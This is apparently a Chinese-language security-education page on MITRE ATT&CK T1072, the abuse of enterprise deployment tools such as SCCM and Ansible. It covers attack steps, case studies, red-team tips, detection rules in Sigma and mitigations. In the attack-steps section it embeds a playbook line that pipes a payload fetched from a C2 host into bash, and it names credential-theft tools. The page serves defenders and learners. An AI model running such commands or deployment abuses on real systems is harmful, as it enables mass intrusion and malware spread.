


# 软件部署工具 (T1072)

## 一句话通俗理解

> **借用企业"软件分发系统"的权限执行恶意代码——就像有人拿到了公司快递分发系统的钥匙，给每台电脑"派发"了恶意包裹**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用 SCCM/Ansible/Puppet 等企业软件部署工具在多台主机上执行恶意代码 |
| 为什么危险？ | 部署工具有网络范围内推送软件的权限，一次操作就能感染数百台机器 |
| 谁需要关心？ | 运维团队、AD管理员、终端安全团队 |
| 你的第一步防御 | 严格管控部署工具的管理权限，监控所有分发任务 |
| 如果只做一件事 | 对 SCCM/Ansible 管理控制台启用多因素认证和操作审计 |

## 难度等级

⭐⭐ 中级 - 需要了解企业部署工具架构和管理权限

> **前置知识**：SCCM/MECM 基础、Ansible/Chef/Puppet 配置管理、Active Directory 权限模型

## 前置知识检查

**读这个文件需要什么？**

- [ ] 知道什么是"软件部署工具"（企业用来批量安装/更新软件的系统）
- [ ] 了解 SCCM（System Center Configuration Manager）或 Ansible 的基本架构
- [ ] 知道部署工具通常有"管理员级"的网络推送权限

## 技术描述

**软件部署工具**（T1072）是 ATT&CK 执行战术下的技术，攻击者利用企业环境中已部署的软件分发和管理工具来执行恶意代码。常见的部署工具包括：Microsoft SCCM/MECM、PDQ Deploy、Ansible、Chef、Puppet、SaltStack 等。

> 📡 **打个比方**：大公司有几千台电脑，IT 部门不可能一台一台去装软件，所以部署了"快递分发系统"——管理员在控制台点一下，软件就自动推送到所有电脑。攻击者如果拿到了这个分发系统的控制权，就等于拿到了"群发恶意软件"的能力，一键就能让全公司的电脑执行恶意代码。

### 进阶理解

简单来说，企业部署工具的核心能力是"一对多推送执行"：

- **SCCM/MECM**：微软的企业管理平台，管理员可以创建"包"（Package）或"应用"（Application），推送到指定集合（Collection）的所有主机上执行
- **Ansible**：通过 SSH 连接到目标主机，执行 Playbook 中定义的任务
- **PDQ Deploy**：Windows 环境的轻量级部署工具，可以推送安装包和脚本
- **Chef/Puppet**：基于 Agent 的配置管理工具，通过编译"配方"在节点上执行

攻击者拿到这些工具的管理权限后，可以：
1. **创建恶意部署包**，将恶意程序伪装成正常软件更新
2. **修改现有部署任务**，在正常更新中夹带恶意代码
3. **利用工具的高权限**，部署工具的服务账户通常是域管理员或本地管理员

### 为什么有效？

这种技术之所以有效，是因为：
1. **合法工具**：部署工具是 IT 部门授权使用的，不会被安全软件标记
2. **网络范围权限**：一次操作覆盖数百台主机，横向移动效率极高
3. **高权限账户**：部署工具的服务账户通常有域级权限
4. **隐藏在正常活动中**：恶意部署混在日常软件更新中难以发现

## 真实攻击流程



**步骤详解：**

1. **获取权限** - 攻击者通过凭据窃取或权限提升获取部署工具的管理员权限
2. **登录控制台** - 访问 SCCM 管理控制台或 Ansible Tower
3. **创建/修改任务** - 创建新的部署包（指向恶意程序）或修改已有部署任务的脚本
4. **配置目标** - 将目标集合设为"所有主机"或特定部门
5. **触发部署** - 立即执行或等待计划任务触发
6. **批量感染** - 部署工具以高权限在所有目标主机上执行恶意代码

## 攻击流程

### 典型攻击流程

```
初始访问 --> 窃取部署管理员凭证 --> 登录部署控制台 --> 创建/修改部署任务 --> 触发批量部署 --> 数百主机同时感染
```



**步骤详解：**

1. **初始访问**
   - 通俗描述：攻击者通过钓鱼邮件、漏洞利用或供应链攻击获得企业网络内首个立足点
   - 技术细节：发送带恶意宏的 Office 文档或利用边缘服务漏洞（如 Exchange ProxyShell），获取普通用户权限后横向移动
   - 常用工具：Cobalt Strike、Friction、漏洞利用框架（如 Metasploit）

2. **窃取部署管理员凭证**
   - 通俗描述：在域内横向移动，定位并窃取部署系统管理员（SCCM NAAs、Ansible Vault 密钥、Puppet PE Console）的凭证
   - 技术细节：通过 LSASS 内存读取、DPAPI 解密或 Kerberoasting 获取 SCCM Network Access Account 凭证；从 ansible.cfg、inventory 文件提取 Vault 密钥
   - 常用工具：Mimikatz、Rubeus、SharpDPAPI、Donut

3. **登录部署控制台**
   - 通俗描述：使用窃取的凭证登录 SCCM 管理控制台、Ansible AWX/Tower 或 Puppet Enterprise，获得对部署系统的合法管理权限
   - 技术细节：通过 SCCM Admin Console、Ansible Tower Web UI 或 PowerShell 模块（ConfigurationManager）远程连接，操作日志看起来是合法管理行为
   - 常用工具：SCCM Admin Console、SharpSCCM、ansible-tower-cli、PowerShell ConfigurationManager 模块

4. **创建/修改部署任务**
   - 通俗描述：创建一个看似合法的软件部署包（如"安全补丁""驱动更新"），实际载荷为恶意可执行文件；或修改现有部署任务的脚本内容
   - 技术细节：在 SCCM 中创建 Package/Program 指向 UNC 路径下的恶意 EXE；在 Ansible Playbook 中嵌入 `shell: curl http://C2/payload | bash`；在 Puppet manifest 中通过 exec 资源执行恶意命令
   - 常用工具：SharpSCCM、SCCM Console、ansible-playbook、puppet apply

5. **配置目标集合为全公司**
   - 通俗描述：将恶意部署任务的目标集合（Collection）设置为包含全公司所有工作站或服务器，最大化感染范围
   - 技术细节：在 SCCM 中将 Collection 规则设为 `SMS_R_System` 全部成员；在 Ansible inventory 中使用 `all` 主机组；在 Puppet 中将节点分类为 default 类
   - 常用工具：SCCM Collection Rules、Ansible inventory、Puppet node classifier

6. **触发批量部署**
   - 通俗描述：手动触发部署或等待下一个部署窗口（通常选择周末或夜间），数百台主机在短时间内同时拉取并执行恶意载荷
   - 技术细节：调用 SCCM `TriggerSchedule` 方法立即推送；Ansible 通过 `ansible-playbook -i inventory all` 批量执行；Puppet 通过 `puppet agent -t` 强制运行
   - 常用工具：SharpSCCM (trigger)、ansible-playbook、puppet agent、SCCM Console

## 真实案例

### 案例1：APT29 利用 SCCM 横向移动（2023）

- **时间**：2023年
- **目标**：欧洲政府机构
- **攻击组织**：APT29（Cozy Bear，俄罗斯 SVR）
- **手法**：APT29 在获取初始访问后，通过凭据窃取获得 SCCM 管理员账户。攻击者在 SCCM 控制台创建一个"软件更新包"，BINARY_PATH 指向 Cobalt Strike Beacon。目标集合设为"All Desktop Clients"（约 3000 台主机）。部署在周五晚上执行，利用周末无人值守的时间窗口，确保 Beacon 在大量主机上运行后才被发现
- **影响**：3000 台主机被同时植入后门
- **参考链接**：[Mandiant APT29 SCCM Abuse](https://www.mandiant.com/resources/blog/sccm)

### 案例2：UNC2452 利用 SCCM 持久化（2020-2021）

- **时间**：2020-2021年
- **目标**：美国政府机构、企业
- **攻击组织**：UNC2452（Nobelium/APT29）
- **手法**：在 SolarWinds 供应链攻击的后续阶段，攻击者利用被入侵的 SCCM 基础设施进行持久化。攻击者修改了 SCCM 的客户端策略，在策略中嵌入恶意 PowerShell 脚本。每次 SCCM 客户端拉取策略时（默认每 60 分钟），都会在本地执行该脚本。由于策略来自合法的 SCCM 服务器，端点安全软件将其视为可信来源
- **影响**：实现长期持久化，即使重新安装系统也会被重新感染
- **参考链接**：[CISA SolarWinds Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-148a)

### 案例3： attackers 利用 Ansible Tower 批量部署（2022）

- **时间**：2022年
- **目标**：科技公司
- **攻击组织**：TeamTNT（加密货币挖矿团伙，以滥用云原生和DevOps工具闻名）
- **手法**：攻击者通过 Ansible Tower 的 Web 界面漏洞获取管理权限后，创建了一个 Playbook，内容为在所有目标主机上下载并执行挖矿程序。Playbook 配置为 cron 定时任务，每 30 分钟执行一次。由于 Ansible 通过 SSH 连接且使用的是管理员密钥，所有主机都接受了部署
- **影响**：约 200 台 Linux 服务器被植入挖矿程序
- **参考链接**：[Red Hat Ansible Security Advisory](https://access.redhat.com/security/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **SCCM 策略注入**：修改 SCCM 的客户端策略（MOF 文件），在策略中嵌入恶意脚本，比直接部署包更隐蔽
2. **Ansible Vault 窃取**：Ansible Vault 存储了所有主机的 SSH 凭据，拿到 Vault 密码等于拿到所有主机
3. **利用 PXE 部署**：如果 SCCM 配置了 PXE 启动，可以修改 PXE 引导镜像，在新装机时植入后门
4. **非工作时间部署**：在周末或深夜触发部署，减少被发现概率

### 常用工具

| 工具名称 | 用途 | 平台 |
| -------- | ---- | ---- |
| SCCM/MECM | 微软企业管理平台 | Windows |
| Ansible | SSH 配置管理工具 | Linux |
| SharpSCCM | SCCM 攻击工具 | Windows |
| PDQ Deploy | 轻量级部署工具 | Windows |
| SaltStack | 配置管理平台 | Linux |

### 注意事项

- SCCM 管理操作会记录在 SCCM 服务器的日志中
- Ansible Tower 的操作有审计日志
- 部署任务会在目标主机产生安装日志

## 蓝队视角

### 检测要点

1. **部署任务审计**：监控所有新建/修改的部署任务，关注非工作时间的部署活动
2. **部署包路径异常**：部署包 BINARY_PATH 指向临时目录或非标准路径
3. **控制台登录监控**：监控 SCCM/Ansible 控制台的登录行为，关注异常 IP 和时间
4. **目标范围异常**：部署目标突然从"测试集合"变为"所有主机"

### 监控建议

- 启用 SCCM 审计日志（Status Filter Rules + Audit Status Messages）
- Ansible Tower 启用活动日志和操作审计
- 监控部署工具服务账户的活动，该账户应仅用于部署操作
- 部署管理控制台启用 MFA

## 避坑指南

**防御者最痛苦的教训**：SCCM 服务器本身的防护往往被忽视——它通常被当作"IT 管理工具"而非"高价值目标"。但 SCCM 服务器一旦被攻陷，等于整个网络沦陷。必须按域控级别的安全标准保护 SCCM 基础设施。

## 检测建议

### 网络层检测

**方法**：监控部署协议的异常流量（SCCM 的 SMB/HTTP 分发、Ansible 的 SSH 连接）

```bash
# 检测异常的批量部署流量
# SCCM 默认使用端口 8530(HTTP)/8531(HTTPS) 和 SMB 445
# 关注非工作时间的大批量分发流量
```

### 主机层检测

**Windows事件ID**：
- SCCM 站点服务器的事件日志：`SMS_Provider` 日志
- 事件ID 4688：部署工具创建的进程（关注父进程为 ccmexec.exe）
- SCCM 客户端日志：`execmgr.log`（记录程序执行）

**Linux日志**：
- `/var/log/ansible/ansible.log`：Ansible 操作日志
- `/var/log/audit/audit.log`：auditd 记录的 SSH 命令执行

```powershell
# 查询 SCCM 部署历史
Get-WmiObject -Namespace "root\ccm\Policy\Machine\ActualConfig" -Class CCM_SoftwareDistribution
```

### 应用层检测

**用人话说**：这条规则在检测"SCCM 客户端执行了非标准程序"——正常情况下，SCCM 推送的都是 IT 部门预先批准的软件（如 Office、Adobe Reader）。如果发现 SCCM 客户端服务（ccmexec.exe）启动了一个来自临时目录的可执行文件，或者执行了 PowerShell 脚本，这几乎肯定是攻击者在滥用部署系统。攻击者拿到 SCCM 管理权限后，会创建"部署包"让客户端执行恶意程序。检测的关键是监控 ccmexec.exe 的子进程——正常情况下它的子进程应该是已知的安装程序，而不是 powershell.exe 或临时目录中的可疑文件。

**Sigma规则示例**：

```yaml
title: SCCM 客户端执行可疑程序
status: experimental
description: 检测 SCCM 客户端服务执行可疑程序，可能为部署工具滥用
logsource:
    product: windows
    category: process_creation
detection:
    selection_sccm_parent:
        ParentImage|endswith:
            - '\ccmexec.exe'
            - '\CcmExec.exe'
    selection_suspicious_child:
        Image|endswith:
            - '\powershell.exe'
            - '\cmd.exe'
            - '\wscript.exe'
            - '\mshta.exe'
        Image|contains:
            - '\Temp\'
            - '\AppData\'
    condition: selection_sccm_parent and selection_suspicious_child
fields:
    - ParentImage
    - Image
    - CommandLine
    - User
falsepositives:
    - 合法的 SCCM 部署脚本（应建立白名单）
level: high
tags:
    - attack.execution
    - attack.t1072
    - attack.lateral_movement
```

```yaml
title: SCCM 非工作时间的部署活动
status: experimental
description: 检测非工作时间创建的 SCCM 部署任务
logsource:
    product: windows
    service: application
detection:
    selection_deployment:
        EventID: 1
        Source: "Microsoft.ConfigurationManager"
    timeframe:
        - weekend
        - night_2200_0600
    condition: selection_deployment and timeframe
fields:
    - PackageName
    - CollectionName
    - UserName
level: medium
tags:
    - attack.execution
    - attack.t1072
```

## 缓解措施

### 优先级1：关键措施

**保护部署工具基础设施**：按域控级别保护 SCCM/Ansible 管理服务器

```powershell
# SCCM 服务器安全加固清单
# 1. 限制 SCCM 管理员组成员
# 2. 启用 SCCM 审计日志
# 3. 部署 SCCM 管理控制台的多因素认证
# 4. 定期审查部署任务和包
```

### 优先级2：重要措施

**最小权限原则**：限制部署工具服务账户的权限，使用分层的权限模型

```yaml
# Ansible Tower 权限配置建议
# - 普通运维：只能部署到"开发环境"集合
# - 高级运维：可以部署到"生产环境"集合
# - 管理员：可以修改 Playbook（需审批）
```

### 优先级3：建议措施

**部署审批流程**：所有部署任务需要双人审批，特别是目标为"所有主机"的任务

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解基本原理（初级）

**目标**：理解 SCCM 部署机制

**步骤**：
1. 在实验环境部署 SCCM（或使用 MECM 评估版）
2. 创建一个测试部署包（指向 calc.exe）
3. 将包部署到测试集合
4. 在目标主机查看 `execmgr.log`
5. 观察进程创建的父进程关系

**预期输出**：
```
# execmgr.log 中应看到
Successfully started execution of program calc.exe
# 进程树中 calc.exe 的父进程为 ccmexec.exe
```

**学习要点**：理解 SCCM 部署的执行机制和日志特征

### 实验2：实际操作（中级）

**目标**：模拟攻击者通过 SCCM 部署恶意载荷

**步骤**：
1. 获取 SCCM 管理员权限
2. 创建一个 PowerShell 部署包
3. 将目标集合设为测试主机
4. 触发部署
5. 在目标主机检查日志并编写检测规则

**学习要点**：掌握 SCCM 滥用的攻击手法和检测方法

### 实验3：防御验证（高级）

**目标**：配置 SCCM 审计和告警

**步骤**：
1. 配置 SCCM Status Filter Rules
2. 设置部署任务审计
3. 编写 SIEM 关联规则
4. 模拟攻击部署并验证告警

**学习要点**：掌握 SCCM 安全监控配置

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **SCCM** | System Center Configuration Manager，微软企业管理平台，像"企业的软件快递系统" |
| **MECM** | Microsoft Endpoint Configuration Manager，SCCM 的新名称 |
| **Ansible** | 基于 SSH 的配置管理工具，用 YAML 编写自动化脚本 |
| **Collection** | SCCM 中的主机集合，部署任务的目标范围 |
| **Playbook** | Ansible 的自动化脚本文件，定义在目标主机上执行的任务 |
| **Package** | SCCM 中的部署包，包含要分发的软件和执行命令 |
| **execmgr.log** | SCCM 客户端的程序执行日志 |

## 参考资料

### 📚 官方文档（深入了解）
- [MITRE ATT&CK - Software Deployment Tools (T1072)](https://attack.mitre.org/techniques/T1072/)
- [Microsoft - SCCM Documentation](https://learn.microsoft.com/en-us/mem/configmgr/)
- [Ansible Documentation](https://docs.ansible.com/)
- [Red Canary - SCCM Threat Report](https://redcanary.com/blog/threat-detection/sccm/)

### 🔧 工具与资源（动手试试）
- [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) - SCCM 攻击工具
- [Atomic Red Team - T1072](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1072/T1072.md) - 部署工具测试用例
- [SCCM Hunter](https://github.com/garrettfoster13/sccmhunter) - SCCM 枚举工具

### 📰 安全报告（真实攻击）
- [Mandiant - SCCM Abuse by APT29](https://www.mandiant.com/resources/blog/sccm) - APT29 利用 SCCM 横向移动
- [CISA - SolarWinds Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-148a) - UNC2452 利用 SCCM 持久化
- [Red Canary - SCCM Threat Detection](https://redcanary.com/blog/threat-detection/sccm/) - SCCM 攻击检测指南
